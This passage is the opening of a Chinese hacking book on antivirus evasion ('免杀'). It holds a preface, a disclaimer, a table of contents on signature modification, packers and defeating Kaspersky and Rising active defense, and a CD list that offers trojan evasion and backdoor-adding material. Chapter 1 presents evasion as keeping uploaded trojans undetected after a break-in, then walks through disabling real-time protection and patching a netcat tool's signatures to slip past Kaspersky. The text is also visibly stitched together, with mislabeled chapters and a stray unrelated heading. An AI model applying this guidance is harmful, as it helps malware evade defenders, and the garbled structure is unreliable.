# 黑客免杀入门

作者：任晓辉（A1Pass）

- 赶紧认识免杀
- 组建一个试验环境
- 免杀基础知识
- 特征码免杀技术
- 其他综合免杀技术
- 免杀与花指令
- 免杀与壳
- 免杀技术前沿
- 免杀技术补白

WWW.HACKERXFILES.NET

## 出版信息

- **出品人**：孙胜利
- **主编**：杨冬柱
- **编辑部主任**：丛林
- **编辑部**：sagi / 呆呆虫 / 虫虫 / 咖啡 / 黄色潜水艇 / 笨牛牛
- **特约编辑**：ww0830 / zj1244 / 阿布 / hackest / 姜超 / 孟方明 / Talent Feng
- **光盘部**：战神MARS
- **设计**：谭海梅
- **排版**：Bifrost
- **联系电话**：010-88561473
- **发行部经理**：赵琦
- **发行部电话**：010-88561472、010-88560080
- **E-Mail**：hackerxfiles@263.net
- **定价**：人民币32元（光盘+手册）
- **杂志订阅及数字版与广告代理**：gotoread.com 龙源期刊网

## 序言

事物总是这样发展，有矛就必然有盾，矛盾的存在让缤纷世界的发展充满着无限生机，又赋予充满无限生机的万物予灵性。站在客观的角度，我们很难说在矛与盾的争锋中谁是对的，谁是主导。然而，狼的存在，让鹿开始选择锻炼奔跑，自然选择会让孱弱的个体在生存竞争中被淘汰，留下的狼和鹿都越来越矫健。于是，我们看见这场较量，让双方都得到了有效的进化，这便是天演，便是自然法则。

网络安全技术亦是如此。失去了免杀技术而只有反病毒的世界，所谓“发展”和“提高”便都成为了空虚的概念。因为只有在不断的斗争中，矛盾才使得这个世界走向高远，矛盾才使得这些抽象的概念具体化。研究免杀技术，并不是为了破坏网络安全而使病毒泛滥，从网络安全研究者的角度来讲，它有两个意义：

1. 提高个人技术，拓展知识面。通过对免杀技术的研习，剖析程序的内部构造，可以让我们对病毒木马等恶意程序的运作原理的认识更加理性化，从而，在今后的防范和手工清除方面提供实质性的技术基础。
2. 推动技术的发展，富有科研价值。研究如何免杀，同样对反病毒技术的提高和发展有一种鞭策和推动的作用。技术的发展在于从两个对立的角度不断变换着思考，这个工作不仅是黑帽子的本职，也是白帽子们需要做的事。

有着这样的意义，也就有着这样一本书。我们期望它用谦逊的口吻，带着热忱的学习者们循序渐进地步入免杀技术的殿堂，从而为中国的网络安全事业添砖加瓦。

技术的积累是一个漫长的过程，所以这本书并没有宣扬那种一步登天便平步青云的错误学习思想，而是仅从一个略熟悉的角度，引导那些初学者们开始探索这个领域，充当一把为大家开启免杀学习之门的钥匙。尔后，继续学习的道路依然漫长，只有带着恒心和毅力坚持走下去，信念才会点燃成功的曙光。

凡事都有艰难的过程，宝剑锋从磨砺出，梅花香自苦寒来，愿各位学习者在坎坷求学路上勇敢拼搏。

此致
共勉

冰血封情 [E.S.T]
戊子年七月廿一日午时于断弦寒舍阁

## 前言

### 声明

本书所讨论的内容原则上只供各位读者了解、学习之用，并从中获得自己想要的知识与有益的乐趣。我虽然不能强迫读者远离黑暗面，但我要劝诫读者不要用本书学到的知识作恶。

### A1Pass

A1Pass 本名任晓辉，是一位生活简单、爱好美术而又不断追求 open 与 free 的网络安全爱好者，但从不敢自称为黑客，对黑客技术的研究只是为了获得知识的快乐与突破自我时的那种快感。A1Pass（邪恶八进制信息安全团队成员）于 1988 年出生在内蒙古赤峰，2003 年接触电脑，现于北京攻读计算机专业。

### 关于本书

现在的网络病毒木马横行，每天都有数百种新型病毒与木马出现，而这其中相当大的一部分其实就是经过黑客们免杀处理的变种。为了让那些想研究免杀技术的病毒防御工作者与黑客技术爱好者更加透彻与系统地了解免杀技术，我在《黑客X档案》的支持下写了这本书，意在给需要它的人一个详尽的参考，并对免杀技术做一个比较系统的阐述。

《黑客免杀入门》是现在国内仅有的几本免杀技术书籍之一。鉴于免杀技术的性质与其它已上市图书的特点，本书除了详尽地介绍了免杀方法外，更兼顾了免杀原理与思路突破的介绍，并驳斥了网络与书本上关于免杀技术的一些错误理论，而且对圈内的部分模糊概念作了详尽的澄清，真正做到了一些具有突破性质的原理介绍。作者之所以下如此大的精力研究这些，只是为争取使本书的读者更加透彻地了解免杀技术。

除此之外，书中使用简单易懂的语言阐述了现在某些专业杀毒防毒书籍中都未曾提到的一些珍贵资料，使大家更好地了解现有免杀方法的优点与缺点。因此，相信本书会成为一本初学者与高手都认为物有所值的著作，更相信本书会使您爱上免杀技术。

### 适合读者

1. 对杀毒或黑客技术感兴趣的朋友。这本书将带领您进入免杀这个没有硝烟的智力战场。
2. 免杀爱好者。这本书将是您很好的参考手册。
3. 电脑病毒防御工作人员。正可谓知己知彼，百战不殆！在您了解了各种免杀原理与思想后，相信会帮助您在杀毒软件发展与创新方面快速取得灵感。
4. 对软件加密、解密感兴趣的朋友。

## 致谢

任何一本书都不可能完全由一个人独自完成，因此请允许我向支持过本书写作的人表示最诚挚的谢意。

1. 感谢冰血封情为本书写序，还要感谢冰血大哥给予我的那些关照，到现在我仍然很庆幸当初的相识……
2. 感谢杨哥（Sagi）对于我无条件的信任，并给予我这次宝贵的机会，从而使得我有幸写出了自己的第一本书。
3. 感谢王健、齐永恒、李鉴树、常龙、张凯以及卢琪等我身边的朋友对我因写作而不能赴约的一次又一次无条件谅解，感谢我的舍友全球荣以及高雪飞对本书一直以来的关心，还要感谢那些我没能提及名字的朋友，我为有你们这些朋友而感到无比幸福！
4. 感谢我挚爱的父母，是你们给予了我生命的温暖，是你们将我带到了这个美好的世界中，感谢你们一直以来无微不至的照料，感谢你们一直以来在背后的默默付出，说不尽的感谢……
5. 最后，仅以本书献给我在天堂的奶奶，您一直是我做事的动力，我会继续努力的。

### 联系方式

由于笔者掌握知识的限制，书中不可避免地会出现一些不妥或有待商榷的地方，欢迎大家指出错误并提出建议。另外，如果您对本书所讲内容有何议议或不明白的地方，可以到《黑客X档案》的官方论坛讨论或发邮件给我，我在时间允许的情况下很愿意为您解答疑问，并接受建议。

A1Pass
E-Mail: a1pass@163.com
QQ: 791188058
黑客X档案: http://www.hackerxfiles.net

## 目录

### 第一章 和免杀初识
- 1.1 什么是免杀 …… 12
- 1.2 免杀的发展史 …… 13
- 1.3 免杀能做什么 …… 13

## 第二章 组建试验环境
- 2.1 我们需要什么 …… 17
- 2.2 安装虚拟机 …… 18
  - 2.2.1 影子系统的安装与使用 …… 19
  - 2.2.2 VMware 虚拟机的安装与使用 …… 20
- 2.3 杀毒软件的安装与设置 …… 24
- 2.4 认识我们的免杀利器 …… 27

## 第三章 免杀基础知识
- 3.1 杀毒软件的原理与杀毒技术简介 …… 32
  - 3.1.1 杀毒软件工作原理 …… 32
  - 3.1.2 基于文件扫描的杀毒技术 …… 33
  - 3.1.3 基于内存扫描的杀毒技术 …… 36
  - 3.1.4 杀毒技术前沿 …… 36
  - 3.1.5 杀毒技术展望 …… 37
- 3.2 了解 PE 文件 …… 37
  - 3.2.1 什么是 PE 文件 …… 38
  - 3.2.2 认识 PE 文件 …… 38
- 3.3 文件免杀原理 …… 41
  - 3.3.1 什么是特征码 …… 41
  - 3.3.2 文件免杀原理 …… 41
- 3.4 工具脱壳技巧 …… 43
  - 3.4.1 专用脱壳工具脱壳 …… 43
  - 3.4.2 使用通用脱壳工具 …… 44

## 第四章 特征码免杀技术
- 4.1 战前热身——脚本木马免杀实例 …… 49
  - 4.1.1 理想状态下的免杀 …… 49
  - 4.1.2 脚本木马也要玩“花指令” …… 51
- 4.2 特征码定位原理 …… 52
  - 4.2.1 CCL 特征码定位原理 …… 52
  - 4.2.2 MYCCL 特征码定位原理 …… 54
  - 4.2.3 MultiCCL 特征码定位原理 …… 56
- 4.3 脚本木马定位特征码技巧 …… 58
- 4.4 MYCCL 查找文件特征码 …… 64
  - 4.4.1 MYCCL 的典型应用 …… 64
  - 4.4.2 针对 MYCCL 的一点思考 …… 67
- 4.5 MYCCL 查找内存特征码 …… 70
- 4.6 MultiCCL 使用技巧 …… 71
  - 4.6.1 MultiCCL 介绍 …… 72
  - 4.6.2 MultiCCL 定位文件特征码 …… 72
  - 4.6.3 MultiCCL 定位内存特征码 …… 79
  - 4.6.4 由 MultiCCL 想到的 …… 83
- 4.7 特征码修改方法 …… 84
  - 4.7.1 简单的特征码修改 …… 84
  - 4.7.2 特征码修改进阶 …… 86

## 第五章 其他综合免杀技术
- 5.1 改文件头免杀 …… 95
  - 5.1.1 操作篇 …… 95
  - 5.1.2 原理篇 …… 97
- 5.2 入口点免杀技术 …… 98
  - 5.2.1 操作篇 …… 98
  - 5.2.2 原理篇 …… 100
- 5.3 使用 Vmprotect 加密 …… 101
  - 5.3.1 操作篇 …… 101
  - 5.3.2 原理篇 …… 102
- 5.4 ResScope 资源修改 …… 103
  - 5.4.1 操作篇 …… 103
  - 5.4.2 原理篇 …… 104
- 5.5 Overlay 附加数据处理及应用 …… 105
  - 5.5.1 操作篇 …… 105
  - 5.5.2 原理篇 …… 108
- 5.6 Sys 免杀修改技巧 …… 108
  - 5.6.1 sys 文件的常见免杀方法 …… 108
  - 5.6.2 sys 文件的手工免杀思路 …… 108
- 5.7 补丁在免杀中的应用 …… 109
  - 5.7.1 操作篇 …… 109
  - 5.7.2 原理篇 …… 112
- 5.8 免杀根基——PE 文件介绍 …… 112
  - 5.8.1 PE 文件的格式 …… 113
  - 5.8.2 虚拟内存的简单介绍 …… 115
  - 5.8.3 PE 文件的内存映射 …… 116
- 5.9 PE 文件中的免杀技术 …… 119
  - 5.9.1 移动 PE 文件头位置免杀 …… 119
  - 5.9.2 输入表移动免杀 …… 124
  - 5.9.3 输出表移动免杀 …… 127
- 5.10 网页木马的免杀技术 …… 130
  - 5.10.1 脚本木马免杀 …… 130
  - 5.10.2 小说网页木马的免杀 …… 147

## 第六章 免杀与花指令
- 6.1 什么是花指令 …… 150
- 6.2 脚本木马的花指令应用 …… 151
- 6.3 花指令根基——了解汇编语言 …… 154
  - 6.3.1 认识汇编 …… 154
  - 6.3.2 由汇编语言想到的——通过反汇编添加任意功能 …… 156
- 6.4 花指令入门 …… 161
- 6.5 花指令在免杀领域的应用 …… 162
  - 6.5.1 花指令的应用技巧 …… 162
  - 6.5.2 花指令的修改技巧简介 …… 164
  - 6.5.3 空白区域寻找与加空白区段 …… 165
- 6.6 花指令的高级应用 …… 168
  - 6.6.1 花指令的提取与快速应用 …… 168
  - 6.6.2 SEH 异常的应用 …… 170

## 第七章 免杀与脱壳
- 7.1 什么是壳 …… 173
- 7.2 壳的基础知识 …… 174
- 7.3 壳在免杀领域的应用 …… 176
  - 7.3.1 加壳的免杀原理 …… 176
  - 7.3.2 FreeRes 多重加壳 …… 176
- 7.4 壳的修改技巧 …… 177
  - 7.4.1 壳的初级修改 …… 177
  - 7.4.2 制作通用补丁 …… 178
- 7.5 手工脱壳技巧 …… 183
  - 7.5.1 手工脱壳基础 …… 184
  - 7.5.2 SFX 自解压法脱壳 …… 185
  - 7.5.3 出口标志法脱 dePack 壳 …… 186
  - 7.5.4 单步跟踪法脱壳 …… 188
  - 7.5.5 经典的 ESP 定律脱壳 …… 191
  - 7.5.6 最后一次异常法脱壳 …… 192
  - 7.5.7 内存镜像法脱壳 …… 193
  - 7.5.8 模拟跟踪法脱壳 …… 194
  - 7.5.9 非完美脱壳后的程序修复 …… 194

## 第八章 免杀技术前沿
- 8.1 杀毒与免杀技术的发展 …… 197
- 8.2 启发式杀毒原理 …… 198
  - 8.2.1 启发式杀毒原理 …… 198
  - 8.2.2 启发性标志详解 …… 199
- 8.3 针对启发式杀毒的免杀方法 …… 200
  - 8.3.1 针对启发式扫描器的免杀工作 …… 201
  - 8.3.2 怎样对抗启发式扫描 …… 201
- 8.4 主动防御的原理 …… 202
  - 8.4.1 初探主动防御 …… 202
  - 8.4.2 主动防御的原理 …… 203
- 8.5 针对主动防御的免杀方法 …… 206
  - 8.5.1 剖析主动防御的弱点 …… 206
  - 8.5.2 修改时间攻破卡巴斯基 …… 206
  - 8.5.3 通过主动防御特征码来突破瑞星主防 …… 211
  - 8.5.4 手工打造突破主动防御 …… 212
- 8.6 与杀毒软件的对抗 …… 214

### 第九章 免杀技术科目
- 9.1 综合免杀实例 …… 217
  - 9.1.1 策划安排 …… 217
  - 9.1.2 设计免杀流程与免杀对策 …… 217
  - 9.1.3 设计免杀执行方案 …… 218
  - 9.1.4 按照执行方案执行免杀操作 …… 220
- 9.2 免杀与汉化 …… 227
  - 9.2.1 VB 程序的汉化与修改 …… 227
  - 9.2.2 C 程序的汉化与修改 …… 228
  - 9.2.3 Delphi 程序的汉化与修改 …… 229
- 9.3 病毒命名规则初探 …… 230
- 9.4 关于免杀的几个 FAQ …… 232

## 附录

### 8088 汇编速查手册
- 一、数据传输指令 …… 234
- 二、算术运算指令 …… 235
- 三、逻辑运算指令 …… 235
- 四、串指令 …… 236
- 五、程序转移指令 …… 236
- 六、伪指令 …… 238

### OllyDbg 常用快捷热键 …… 238

### OllyDbg 命令栏命令列表 …… 238

## 光盘目录

禁止设置、密码管家等众多功能于一身。对正常使用中的程序隐藏、使灰色按钮可用等。隐藏磁盘分区，隐藏的分区对 Windows 系统有效，对本软件的文件浏览功能无效。

极智后缀名翻译器 2008 4.12：它能翻译文件后缀名的含义，这样你就大体上能了解此文件有什么用、用什么软件打开。

## ☆图书相关☆

影子系统(PowerShadow) 2008：影子系统可以生成现有操作系统的虚拟影像，它具有真实系统完全一样的功能。进入影子系统后，所有操作都是虚拟的，不会对真正的系统产生任何影响。

VMware v6.0 完美汉化绿色版：可在一台机器上同时运行多个 Windows/DOS/LINUX 系统。

冰枫文件防火墙 2.0：带特征码修改功能。

ResScope V1.94 简体中文版：类似 eXeScope 的资源分析和编辑工具。

## ☆安全之道☆

- TaskInfo V8.1.0.264：实时监控系统与进程。
- 365门神 V1.3：网站访问安全防护。
- 墨者安全专家第二代 3.5.1.0 Beta：免疫与系统防护增强。
- APORTS 进程工具：查看端口被哪些进程打开。
- 360保险箱 v2.3.2：账号密码安全保护。
- SkyEyes(天眼) v3.0：进程管理器。

## ☆黑武器库☆

- 小路QQ头像制作工具
- Process Explorer 11.20
- 菜卡文件搜索助手 v1.0
- 光华小工具 Build V0901
- 万用魔方 1.0

## ☆思维追剿☆

- 不用任何软件刷QQ红钻分数
- 免费点亮QQwap图标
- 免费注册 iTunes（摆脱信用卡限制）
- 破解 Office2000 合同管理系统
- 破解小精灵试用时间
- 轻松给软件加后门
- 暴力破解“MP3音频录音机 标准版”
- 网络验证“股市小助手 3.1.5.0”破解
- 自动搭建 Apache v2.0.54
- 灰鸽子熊猫版本地卡巴斯基 7.0

## ☆娱乐军华☆

- ○ 新片预告：
  - 《比佛利拜金狗》
  - 《没问题先生》
- ○ 精彩游戏：
  - 《空 KONG》
  - 《布恩肖 BoneSaw》
- ○ 动漫人生：
  - 《毁灭世界的六个人》第1、2话


## 备考是一个孤独的过程

> “千里之行，始于足下”
> —— 老子

## 第二章 和我一起来认识免杀

免杀是一个亦简亦繁的技术，简单的可以点几下鼠标就达到目的，而复杂的则需要了解系统底层知识与构架才行，但同时免杀技术却又是每一位黑客技术爱好者都应该掌握，也是必须要掌握的一门技术。

好的开始代表着一半的成功，我深知有许多朋友已观摩许久，却不能入门半步，这是一件令人非常郁闷的事情，而探究其原因，是因为广大初学者不能对免杀有一个系统的了解，本书的目的就是要带领各位读者打破这个屏障，让大家从免杀的基础知识开始，逐步进入神秘的黑客技术殿堂。

### 1.1 什么是免杀

免杀，也就是反病毒（Anti-Virus）与反间谍（Anti-Spyware）的对立面，英文为 Anti Anti-Virus（简写为 Anti-AV），逐字翻译为“反—反病毒”，我们可以翻译为“反杀毒技术”。单从“免杀”的字面意思来理解，可以将其看作为一种能使病毒木马免于被杀毒软件查杀的技术。但是不得不客观地说，免杀技术的涉猎面非常广，我们可以由此轻松转型为反汇编、逆向工程甚至是系统漏洞的发掘等其它顶级的黑客技术，由此可见免杀其实并不简单。

免杀技术属于网络安全中“病毒／木马技术”里的一个分支，它随着杀毒软件的出现而诞生，据江民杀毒软件公司于 2007 年的调查结果显示，41.86% 左右的黑客或准黑客正在研究“免杀病毒”技术，研制“免杀病毒”和在互联网交流“免杀技术”已经成为黑客们最为热衷、追捧的黑客行为，如图 1-1。个人认为这个结果虽不十分可信，但也能反映出一定的问题。



在黑客技术向商业化靠拢之后，只有有限的渗透技巧可以供广大黑客技术爱好者学习研究，面对渗透技巧的局限性，工具的生命力就显得更为重要了，所以在某一层面来讲，免杀技术的高低已经对渗透效果产生了不可忽视的影响。

因此，免杀技术已经成为黑客的必备技巧，而学好免杀技术对于一个黑客技术入门的朋友来说，也就显得尤为重要了。

展望网络世界里以各种方式抛头露面的“黑客”，其实大概只有 40% 的人确实掌握了一定的黑客技术，很显然免杀技术也一定会包含在其中。所以个人认为也许江民公布的数字就与此有关。

因此对于黑客技术入门的朋友来看，学习免杀技术会在一定程度上使您晋升到这 40% 的人群里来！

### 1.2 免杀的发展史

理论上讲，免杀一定是出现在杀毒软件之后的。而通过杀毒软件的发展史不难知道，第一款杀毒软件 McAfee 是于 1989 年诞生的，也就是说免杀技术至少是在 1989 年以后才发展起来的。关于世界免杀技术的历史信息现在已无人考证，但从国内来讲，免杀技术的起步可以说是非常晚了。

- 1989 年：第一款杀毒软件 McAfee 诞生，标志着反病毒与反查杀时代的到来。
- 1997 年：国内出现了第一个可以自动变异的千面人病毒（Polymorphic/Mutation Virus）。自动变异就是病毒针对杀毒软件的免杀方法之一，但是与现在免杀手法的定义有出入。
- 2002 年 7 月 31 日：国内第一个真正意义上的变种病毒“中国黑客 II”出现，它除了具有新的特征之外，还实现了“中国黑客”第一代所未实现的功能，可见这个变种也是病毒编写者自己制造的。
- 2004 年：在圈子内部，免杀技术是由冰狐浪子在这一年首先公开提出，由于当时还没有 CCL 等专用免杀工具，所以一般都使用 WinHex 逐字节更改。
- 2005 年 1 月：大名鼎鼎的免杀工具 CCL 的软件作者 tankaiha 在杂志上发表了一篇文章，借此推广了 CCL，从此国内黑客界才有了自己第一个专门用于免杀的工具。
- 2005 年 2 月—7 月：通过多方面有意或无意的宣传，黑客爱好者们开始逐渐重视免杀，在类似于华夏论坛等黑客站点的木马专栏下，开始有越来越多的人讨论免杀技术，这为以后木马免杀的火爆埋下根基。
- 2005 年 08 月：第一个可查的关于免杀的动画由小野完成，为大量黑客爱好者提供了一个有效的参考，成功地对免杀技术进行了第一次科普。
- 2005 年 09 月：免杀技术开始真正的火起来。

由上面的信息可见，国内在 1997 年出现了第一个可以自动变异的千面人病毒，虽然自动变异也可以看为是针对杀毒软件的一种免杀方法，但是由于与现在免杀手法的定义有出入，所以如果将国内免杀技术起源定位 1997 年会显得比较牵强。

一直等到 2002 年 7 月 31 日，国内第一个真正意义上的变种病毒“中国黑客 II”才迟迟出现，因此我们暂且可以将国内免杀技术的起源定位在 2002 年 7 月。

### 1.3 免杀能做什么

您有没有过心爱的工具被杀毒软件 Kill 的经历；您有没有过辛辛苦苦整理出来的工具集被杀毒软件搞成面目全非而“义愤填膺”的时候；您有没有过好不容易拿到权限，上传的木马却被杀的痛心时刻？免杀，它能做的就是避免这些事情的发生！使杀毒软件成为摆设！当然，除此之外免杀技术带给我们更多的，将是思想的飞跃与技术的成长。

但是要想真正明白免杀能做什么，就要先明白免杀会涉及到什么。对于初学者来说，免杀只会涉及到一点基本的 PE 文件知识与一些免杀工具的使用，而对于高手来说，免杀甚至会涉及到 Ring0（内核层）的程序编译技巧。所以免杀这门课程涵盖面还是相当宽泛的。

## 第一章 和我一起来认识免杀

下面大家先看看这个简单的免杀例子。

“中华经典网络军刀 NC”以下简称“网络军刀”是一款功能十分强大的网络工具。“NC”的可视版，如果大家接触过服务器渗透的话，那对它就一定不会陌生。下面就以“网络军刀”为免杀目标来进行一次简单的针对卡巴斯基的免杀操作。

首先需要一个无壳版的“网络军刀”与一款傻瓜式免杀工具“冰枫文件防火墙 2.0”（光盘中有）。

双击运行“冰枫文件防火墙 2.0”后单击“改特征码”选项，如图 1-2，然后单击“源文件”后面的“浏览”按钮，在弹出的对话框中选择我们的免杀对象“网络军刀”如图 1-3，最后单击“保存到”后面的“浏览”按钮，随便选择一个文件夹即可。除此之外，在进行免杀之前还要如图 1-4 所示关闭防火墙与杀毒软件的实时保护功能，最终点击“开始”按钮即可进入我们的免杀世界，如图 1-5。




